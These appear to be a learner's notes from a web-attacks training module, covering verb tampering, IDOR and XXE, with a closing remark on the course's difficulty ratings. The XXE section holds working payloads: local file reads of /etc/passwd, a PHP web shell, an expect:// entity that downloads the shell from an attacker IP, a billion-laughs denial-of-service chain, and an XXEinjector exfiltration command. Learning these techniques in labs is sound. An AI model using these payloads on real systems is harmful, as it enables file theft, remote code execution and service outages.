 # Web Attacks

## Verb Tampering

If incurrectly configured it's possible to bypass auth by chnaging request methods. HEAD, PUT, DELETE, OPTIONS, PATCH, GET and POST

Random tip but right clicking in burp gives you the option to change request to a POST and it fixes the headers for you.

## IDOR

This was super mega easy did not learn anything new.

## XXE

Can include files like this

```xml
<!ENTITY company SYSTEM "file:///etc/passwd">
```

We maybe need to base64 encode the output

```xml
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
```

We can make a php script and upload it on the server

```shell-session
<?php system($_REQUEST["cmd"]);?>
```

```xml
<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.16.24:8000/shell.php'">
```

Can try DDOS the site too like this

```xml
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
<name>aa</name>
<tel>aaa</tel>
<email>&company;</email>
<message>aaaa</message>
</root>
```

```
ruby XXEinjector.rb --host=10.10.16.24 --httpport=80 --file=xxe.req --path=/etc/passwd --oob=http --phpfilter
```

The above tool can automate xxe injection it's not very good though....

## Assesment

This was a very fun challenge!

I think the cube system is way off. This challenge was fun and not that hard and yet it produces 5 cubes! But the hard assesment on the password attack module that took ages and was remarkably less fun is only one cube. Odd.....
